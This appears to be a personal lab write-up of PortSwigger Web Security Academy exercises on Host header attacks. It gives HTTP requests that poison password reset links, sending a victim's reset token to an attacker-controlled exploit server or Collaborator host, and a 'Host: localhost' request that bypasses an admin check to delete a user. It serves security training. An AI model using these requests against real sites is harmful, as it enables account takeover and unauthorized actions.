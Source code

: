 ## Lab - 1: Basic password reset poisoning (A)

- This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.

### how forgot password works in this lab ?

- first test with own account `wiener`
- enter name at forgot password page will make a post request

```
POST /forgot-password HTTP/1.1
Host: 0a2e00ee047f2fdbc0bd31ff00010045.web-security-academy.net
...
csrf=TmWD6yKuj2ZaYbUZkL6sH3f6jom3mvU3&username=wiener
```

- Then `Please check your email for a reset password link.`
- In email box, the following link with token is received.

```
https://0a2e00ee047f2fdbc0bd31ff00010045.web-security-academy.net/forgot-password?temp-forgot-password-token=WLiNjn9NG1CUePEojyt8OtuiaCr3clzi
```

If follow the link, reset password page is received. Then POST request to change the password.

```
POST /forgot-password?temp-forgot-password-token=Hg1GwkdzYSEpDG5FDG5M3gNMULH0vGPS HTTP/1.1
Host: 0a2e00ee047f2fdbc0bd31ff00010045.web-security-academy.net
...

csrf=9FlVx2UgbGDnst1PfLnKjyNdNp2h9wPi&temp-forgot-password-token=Hg1GwkdzYSEpDG5FDG5M3gNMULH0vGPS&new-password-1=peter&new-password-2=peter
```

### How to exploit other user

- test the Host header for POST request with other Hosts

```
POST /forgot-password HTTP/1.1
Host: www.test.com
...
csrf=TmWD6yKuj2ZaYbUZkL6sH3f6jom3mvU3&username=wiener
```

- Email still received with the following link

```
https://www.test.com/forgot-password?temp-forgot-password-token=hZ2261K8u025FraGlCRDl2Gs7RRFMjd0
```

- change the Host header to exploit server and change the user name to other user

```
POST /forgot-password HTTP/1.1
Host: exploit-0a47002904c32fb3c00831f6017b006e.web-security-academy.net/
...
csrf=SOcfxkHQ6D47ls6UbKS5xRvORlFvvlfm&username=carlos
```

- Then look at the exploit server log and found a GET request with token.
- use that token to get the change password page for other user

```
https://0a2e00ee047f2fdbc0bd31ff00010045.web-security-academy.net/forgot-password?temp-forgot-password-token=<token-from-log>
```

---

## Lab - 2: Password reset poisoning via middleware (P)

- This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.

```
POST /forgot-password HTTP/1.1
X-Forwarded-Host: l5r2vxr3alvuvijrao2ocl83puvkj9.burpcollaborator.net
Host: 0a64005403af9d9ac08f879e001900f4.web-security-academy.net
...
username=carlos
```

---

## Lab - 3: Password reset poisoning via dangling markup (E)

> plan after XSS

---

## Lab - 4: Web cache poisoning via ambiguous requests

> plan after web cache poisoning

---

## Lab 5 : Host header authentication bypass (A)

- This lab makes an assumption about the privilege level of the user based on the HTTP Host header. To solve the lab, access the admin panel and delete Carlos's account.

- admin route can be found at `/admin`

```
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
```

---
